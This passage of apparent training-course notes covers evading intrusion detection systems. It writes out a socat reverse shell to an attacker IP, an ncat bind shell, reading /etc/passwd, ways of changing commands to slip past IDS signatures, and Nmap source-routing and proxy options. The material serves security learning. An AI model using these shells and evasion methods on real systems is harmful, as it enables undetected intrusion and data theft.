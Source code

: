 However, if the IDS/IPS inspects the traffic, all the packet data will be encrypted. In other words, the IPS will be completely oblivious to exchange traffic and commands such as `cat /etc/passwd`. The screenshot below shows how things appear on the wire when captured using Wireshark. The highlighted packet contains `cat /etc/passwd`; however, it is encrypted.
	![[Pasted image 20240902045551.png]]

As you can tell, it is not possible to make sense of the commands or data being exchanged. To better see the value of the added layer of encryption, we will compare this with an equivalent `socat` connection that does not use encryption.
1. On the attacker’s system, we run `socat -d -d TCP-LISTEN:4443,fork STDOUT`.
2. On the victim’s machine, we run `socat TCP:10.20.30.129:4443 EXEC:/bin/bash`.
3. Back on the attacker’s system, we type `cat /etc/passwd` and hit Enter/Return.

Because no encryption was used, capturing the traffic exchanged between the two systems will expose the commands, and the traffic exchanged. In the following screenshot, we can see the command sent by the attacker.
	![[Pasted image 20240902050200.png]]

### Modify the data
Consider the simple case where you want to use Ncat to create a bind shell. The following command `ncat -lvnp 1234 -e /bin/bash` tells `ncat` to listen on TCP port 1234 and bind Bash shell to it. If you want to detect packets containing such commands, you need to think of something specific to match the signature but not too specific.
- Scanning for `ncat -lvnp` can be easily evaded by changing the order of the flags.
- On the other hand, inspecting the payload for `ncat -` can be evaded by adding an extra white space, such as `ncat  -` which would still run correctly on the target system.
- If the IDS is looking for `ncat`, then simple changes to the original command won’t evade detection. We need to consider more sophisticated approaches depending on the target system/application. One option would be to use a different command such as `nc` or `socat`. Alternatively, you can consider a different encoding if the target system can process it properly.

## **Evasion via Route Manipulation**
Evasion via route manipulation includes:
- Relying on source routing
- Using proxy servers
![[Pasted image 20240902051117.png]]
### Relying on Source Routing
In many cases, you can use source routing to force the packets to use a certain route to reach their destination. Nmap provides this feature using the option `--ip-options`. Nmap offers loose and strict routing:
- Loose routing can be specified using `L`. For instance, `--ip-options "L 10.10.10.50 10.10.50.250"` requests that your scan packets are routed through the two provided IP addresses.
- Strict routing can be specified using `S`. Strict routing requires you to set every hop between your system and the target host. For instance, `--ip-options "S 10.10.10.1 10.10.20.2 10.10.30.3"` specifies that the packets go via these three hops before reaching the target host.

### Using Proxy Servers
The use of proxy servers can help hide your source. Nmap offers the option `--proxies` that takes a list of a comma-separated list of proxy URLs. Each URL should be expressed in the format `proto://host:port`. Valid protocols are HTTP and SOCKS4; moreover, authentication is not currently supported.
